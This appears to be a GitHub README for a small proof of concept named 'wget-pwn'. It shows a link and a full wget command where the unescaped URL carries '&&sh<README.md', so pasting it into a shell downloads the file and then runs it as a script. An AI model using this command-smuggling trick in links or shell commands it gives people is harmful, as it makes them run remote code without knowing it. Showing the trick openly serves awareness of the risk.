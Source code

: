 wget-pwn
=========


A click on the following link in your browser will only display this readme file.


[README.md](https://github.com/markus-perl/wget-pwn/master/README.md&&sh<README.md)


But downloading this link unescaped with wget will execute arbitary code.


    wget --no-check-certificate https://raw.githubusercontent.com/markus-perl/wget-pwn/master/README.md&&sh<README.md

